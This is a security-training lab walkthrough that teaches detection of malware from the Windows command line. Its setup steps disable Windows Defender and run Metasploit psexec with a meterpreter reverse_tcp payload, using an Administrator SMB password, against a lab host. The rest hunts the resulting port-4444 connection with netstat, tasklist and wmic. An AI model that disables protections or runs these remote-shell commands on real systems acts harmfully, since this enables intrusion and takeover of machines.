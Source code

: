 

# Windows CLI

In this lab we will create some malware, run it and then use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn, well...  Anything, is to actually just dig in and do it.  So, this is a great process for getting started in looking at actual malware.

Let’s get started by opening a Terminal as Administrator

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a Kali instance by clicking the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

####NOTE##### 

If you are having trouble with Windows Terminal, you can simply start each of the three shells, we use by starting them directly from the Windows Start button. 

 

Simply click the Windows Start button in the lower left of your screen and type: 

 

`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For PowerShell and Command Prompt, please right click on them and select Run As Administrator 

###END NOTE###


Before going any further, we need to ensure that Windows Defender is disabled. To do this, open a Windows Powershell by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means Defender was disabled.  We run above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Now that we disabled Windows Defender, we can head back to our Kali terminal.

Within the terminal, please run the following command:

<pre>ifconfig</pre>>

![](attachments/windowscli_ifconfig.png)

Please note the IP address of your Ethernet adapter. 

Please note that my adapter is called eth0 and my IP address is 172.26.19.133.   

Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:

We need to gain root access within our Kali terminal. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the Metasploit handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!
When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the RHOST IP by using the following command:

<pre>set RHOST 10.10.1.209</pre>

![](attachments/windowscli_sets.png)

Remember, your IP will be different!

Next, we need to set the SMB username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view) and would tell us an attacker had mounted a share on this system (net session). 

However, we are not done with network connections yet.  Lets try looking at our malware!

Run the following command in a Windows Powershell 
<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us what ports are open on this system (0.0.0.0:portnumber) or (LISTENING) and what remote connections are made to other systems (ESTABLISHED).  In this example, we are really interested in the ESTABLISHED connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

But, we do see our last connection with the port 4444.

Let's get the Process ID (PID) from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

Now, let's dive in!

First we will start with tasklist  

<pre>tasklist /m /fi "pid eq PID"</pre>

YOUR PID WILL BE DIFFERENT!

![](attachments/windowscli_tasklist.png)

We can see the loaded DLL's above.  As we can see, there is not a whole lot to see here:

Let's keep digging with wmic:

<pre>wmic process where processid=PID get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the commandline!  We know this because there are no options.


Let's see if we can see what spawned the process with wmic.

<pre>wmic process get name,parentprocessid,processid | select-string PID</pre>

![](attachments/windowscli_selectstring.png)

Above we can see that we hunted the malicious process, then found its parent process ID, then did a find on that process ID.  As you can see above, it was launched by the cmd.exe process.  Also note that the search we just did may turn up some other things launched by the command line as well.










 

